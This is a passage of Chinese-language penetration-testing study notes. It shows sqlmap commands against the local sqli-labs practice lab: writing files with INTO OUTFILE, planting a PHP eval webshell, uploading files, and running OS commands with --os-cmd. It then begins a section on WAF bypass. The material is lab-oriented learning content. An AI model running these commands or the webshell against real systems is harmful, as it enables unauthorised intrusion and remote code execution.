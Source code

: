 ```sql
#1. 向文件写入内容
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select 1,2,'aaa' into outfile 'D:\phpstudy_pro\test5.txt'" --batch
#2. 写入webshell
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select '<?php eval($_POST[1]);?>' into outfile 'D:\phpstudy_pro\WWW\shell3.php'";		#可以转化为16进制写入
#3. 获取绝对路径
python sqlmap.py -u "127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select @@datadir;"
#4. 查看secure_file_priv的值
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-8/?id=1" --sql-query="select @@secure_file_priv;"
```

##### d. 上传文件

###### ①满足条件

1. 有**写文件**权限
   * **secure-file-priv**不为**null**
   * mysql有对某个**目录读写**的权限
2. **知道绝对路径**
3. 必须能**绕过单引号过滤**

###### ②--file-write、--file-dest

```sql
sqlmap -u [URL] --file-write [源路径的绝对地址] --file-dest [目的路径的绝对地址]
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-8/?id=1" --file-write "C:\\123.txt" --file-dest "C:\\phpstudy_pro\\www\\test.php"
```

##### e. 执行命令

###### ①-os-shell \ --os-cmd

* 原理：利用mysql的**outfile、dumpfile等写文件**函数，先上传一个**具有上传功能**的Webshell，再上传一个**具有各种功能**的Webshell

```sql
sqlmap -u [URL] --os-cmd="whoami"
python sqlmap.py -u "http://127.0.0.1/sqli-labs-master/Less-1/?id=1" --os-cmd="whoami"
```

### 10. Waf绕过

#### (1). 基本流程

1. 身份认证

2. 数据包解析

3. 规则系统匹配

4. 是否拦截

   ![WAF拦截流程](http://113.45.142.235:9001/laffrex/pictures/WAF拦截流程.png)
